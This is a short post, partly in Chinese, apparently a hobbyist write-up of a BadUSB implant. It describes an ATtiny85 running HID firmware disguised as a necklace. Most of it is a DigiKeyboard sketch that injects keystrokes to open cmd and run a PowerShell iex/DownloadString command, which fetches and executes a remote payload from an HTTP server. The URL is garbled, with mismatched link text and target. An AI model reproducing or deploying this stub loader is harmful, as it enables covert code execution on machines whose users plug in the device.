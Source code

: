 Ah, memories ❤

**你以前是怎么连接这个的？** *(以防万一..)*

![](img/0d090ade7ea287b6d4bf8109fa89fc75.png)

Found in folders, connections to a normal USB, because I broke the USB Male Connector

# 那么，是什么呢！？

这是一个 **ATiny85** *(也可以使用 Arduino Uno r3，但它不会伪装成项链)*微控制器，上面加载了打了补丁的 HID(人机界面设备)固件，使它有点像上面的两个连环杀手。*(但更便宜，更少——更技术性，比群联固件补丁少，比抓个 USB 橡皮鸭多)*

# 分级有效载荷

在我们的微控制器内部运行的代码充当一个 ***存根加载器*** 。

```
#include “DigiKeyboard.h”#define KEY_UP_ARROW 0x52
#define KEY_DOWN_ARROW 0x51
#define KEY_LEFT_ARROW 0x50
#define KEY_RIGHT_ARROW 0x4F
void setup() {
}void loop() {
 DigiKeyboard.sendKeyStroke(0);
 DigiKeyboard.delay(300);
 DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
 DigiKeyboard.delay(300);
 DigiKeyboard.print(“cmd”);
 DigiKeyboard.sendKeyStroke(KEY_ENTER);
 DigiKeyboard.delay(500);
 DigiKeyboard.print(“powershell iex ((New-Object System.Net.WebClient).DownloadString(‘[http://10.10.10.1:8000/payload.txt'](http://10.163.5.244:8000/data.txt')))");
 DigiKeyboard.sendKeyStroke(KEY_ENTER);
 for(;;){ /*empty*/ }
}
```
